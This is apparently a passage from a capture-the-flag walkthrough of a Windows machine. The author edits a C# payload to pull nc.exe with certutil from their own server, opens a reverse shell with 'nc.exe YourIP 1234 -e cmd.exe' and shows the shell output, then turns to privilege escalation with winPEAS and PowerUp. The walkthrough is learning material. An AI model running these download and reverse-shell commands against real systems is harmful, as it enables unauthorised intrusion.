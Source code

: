 Hmm... xml is not really something I am comfortable with yet. But I can see the comment above the payload that says executing calc for a poc. Lets give the payload a reading anyway. I can understand that scripting language is c#, we see a string named cmd and the main thing we see is that proc.Startinfo.Filename="calc.exe". So that means this script will execute a calc command. Lets try replacing that with something like "curl". I don't see any output. Reading the script a little more we can see that there is no print statement for after we send the payload. So I add a little `print(r4.text)` at the end. And now we can see some output of different command we replace with with the calc.exe. After playing some more I see that we can pass the arguements to the string cmd. 

To gain a shell I start a python server and change the payload like this
{%highlight xml%}
{ string cmd = "-urlcache -split -f http://YourIP/nc.exe c:/windows/temp/nc.exe"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "certutil"; proc.StartInfo.Arguments = cmd;\
{%endhighlight%}

And I see a GET request for the netcat executable on my server. Next I try to run that executable.

{%highlight xml%}
{ string cmd = "YourIP 1234 -e cmd.exe"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "c:/windows/temp/nc.exe"; proc.StartInfo.Arguments = cmd;\
{%endhighlight%}

Now I just setup a netcat listener and run the script.

{%highlight bash%}
nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.10.180 49686 received!
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.
C:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
{%endhighlight%}

So we received a shell. We can find the user flag inside the `\Users\Public\` directory. And now we move on to escalating our privileges. 

So my knowledge of windows priv esc is very limited. I start looking inside all the user directories but didn't have the permissions. Then I transfer and run winPEAS. Nothing stands out yet ( to my amatuer eyes that is ). Finally someone [recommended this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/a6475a19d9333006df3fee5aa377b586087d5fab/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md).

Looks like I will need to PowerUP. PowerUp is a tool to find weak services and the catch is that it is a powershell script. I have never used powershell before in my life. Till now I have relied on the good ol command prompt. Luckily Using th script wasn't that hard.

Oh Yeah I forgot something important to tell you. Let me tell you about my mistake first. So I transfered the script to the windows box using curl and nothing happened when I ran it. So I googled about it and [found this](https://www.itprotoday.com/powershell/how-run-powershell-script).
Apparently powershell is "secure" by default and has a signature mechanism in place to protect the system from running untrusted scripts. But when I transfered the script using certutil to the box the script ran normally. I still don't know the details but I just wanted to state an observation. 
